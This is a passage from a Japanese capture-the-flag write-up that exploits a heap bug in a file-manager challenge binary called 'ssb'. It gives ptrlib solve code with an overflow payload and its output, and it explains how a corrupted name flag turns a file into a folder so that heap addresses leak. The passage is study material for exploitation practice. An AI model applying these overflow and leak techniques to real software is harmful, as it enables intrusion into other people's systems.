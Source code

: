 ```python
    sock.recvuntil("> ")
    sock.sendline("6")
    sock.recvuntil("name: ")
    sock.sendline(name)

def list_dir():
    sock.recvuntil("> ")
    sock.sendline("1")
    filelist = []
    while True:
        fname = sock.recvline().rstrip()
        if fname == b'':
            break
        filelist.append(fname)
    return filelist

sock = Process("./ssb")

add_file("foo1", 0x50, "hogehuga")
add_file("bar1", 0x50, "foobar")
print(list_dir())
remove_file("foo1")
print(list_dir())
payload = b'A' * 0x59
add_file("foo2", 0x50, payload)
print(list_dir())

sock.interactive()
```

```
$ python solve.py 
[+] Process: Successfully created new process (PID=26397)
[b'foo1', b'bar1']
[b'bar1']
[b'foo2', b'AAAAAAAA']
[ptrlib]$ 
```
名前の先頭がオーバーライトできているということは、flagも書き換えられています。
したがって、ファイルをフォルダとして認識させることができます。
そして、ファイルがフォルダとして認識されたとき、そのフォルダに入っているファイルのオフセットはmalloced, ptr, contentsの部分に相当します。
~~したがって、誤認識させたいファイルのcontentsに同じオフセットを複数個入れておけばdouble freeやUAFができます。~~
※`remove_file`では同じファイル名のものをすべて削除し、かつmemsetで空にしているので無理でした。

ptrがファイルのオフセットとして認識されるということは、ファイルを大量に用意しておけば、これを使ってヒープのアドレスをリークできることになります。（オフセットに対応したファイル名が`list_dir`で表示されるので、逆にオフセットが特定できる。）
```python
from ptrlib import *

def add_file(name, size, data):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("name: ")
    sock.sendline(name)
    sock.recvuntil("size: ")
    sock.sendline(str(size))
    if size <= 0x50:
        sock.sendline(data)
    else:
        sock.send(data)

def add_dir(name):
    sock.recvuntil("> ")
    sock.sendline("3")
```